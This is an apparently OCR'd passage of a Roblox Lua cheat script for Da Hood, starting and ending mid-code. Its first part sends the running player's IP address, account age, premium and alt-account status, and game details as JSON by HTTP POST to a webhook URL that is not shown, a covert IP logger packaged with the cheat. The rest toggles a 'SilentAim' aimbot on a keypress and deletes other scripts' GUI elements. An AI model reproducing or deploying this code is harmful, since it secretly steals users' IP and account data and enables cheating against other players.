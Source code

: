                     ["value"] = IP,
                    ["inline"] = true
                },
                {
                    ["name"] = "Game Link:",
                    ["value"] = "https://roblox.com/games/" .. game.PlaceId .. "/",
                    ["inline"] = true
                },
                {
                    ["name"] = "Game Name:",
                    ["value"] = info.Name,
                    ["inline"] = true
                },
                {
                    ["name"] = "Age:",
                    ["value"] = plr.AccountAge,
                    ["inline"] = true
                },
                {
                    ["name"] = "Premium:",
                    ["value"] = premium,
                    ["inline"] = true
                },
                {
                    ["name"] = "ALT:",
                    ["value"] = ALT,
                    ["inline"] = true
                },
 
            },
        }}
    }
    local newdata = HttpServ:JSONEncode(data)
 
    local headers = {
            ["content-type"] = "application/json"
    }
 
    local request_payload = {Url=url, Body=newdata, Method="POST", Headers=headers}
    http_request(request_payload)
end



    
local L_1_ = "t"
local L_2_ = game.Players.LocalPlayer:GetMouse()
L_2_.KeyDown:Connect(
    function(L_22_arg0)
	if L_22_arg0 == L_1_ then
		if DaHoodSettings.SilentAim == true then
			DaHoodSettings.SilentAim = false
		else
			DaHoodSettings.SilentAim = true
		end
	end
end
)
game:GetService("RunService").RenderStepped:Connect(
    function()
	for L_23_forvar0, L_24_forvar1 in pairs(game.CoreGui:GetChildren()) do
		if L_24_forvar1.Name == "PostmansAutoRob" then
			L_24_forvar1:Destroy()
		end
	end
	for L_25_forvar0, L_26_forvar1 in pairs(game.CoreGui:GetChildren()) do
		if L_26_forvar1.Name == "WarningGUI" then